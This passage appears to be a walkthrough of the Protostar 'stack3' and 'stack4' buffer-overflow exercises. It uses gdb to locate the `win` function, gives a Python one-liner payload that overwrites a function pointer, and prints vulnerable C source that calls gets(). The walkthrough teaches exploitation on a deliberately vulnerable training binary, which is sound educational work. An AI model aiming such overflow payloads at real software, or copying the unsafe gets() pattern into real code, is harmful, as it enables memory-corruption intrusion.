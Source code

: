 Using gdb (with [peda](https://github.com/longld/peda)) we have:

```
➜  gdb -q stack3
Reading symbols from stack3...done.
gdb-peda$ disass win
Dump of assembler code for function win:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     sub    esp,0x18
   0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540
   0x08048431 <+13>:    call   0x8048360 <puts@plt>
   0x08048436 <+18>:    leave
   0x08048437 <+19>:    ret
End of assembler dump.
gdb-peda$
```
So `win` 's address is `0x08048424`. Now, we will build a payload, which contains 64 'A' characters and `0x08048424` in Little Endiance.

```
➜  python2 -c 'print "A" * 64 + "\x24\x84\x04\x08"' > input3.b
➜  ./stack3 < input3.b
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## STACK 4

```
/* stack4.c */
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This piece of code is so brief. Same idea as Stack 3, we must change code flow to `win` function, however there is no `fb` for us overwrite.

> It's time for EIP.
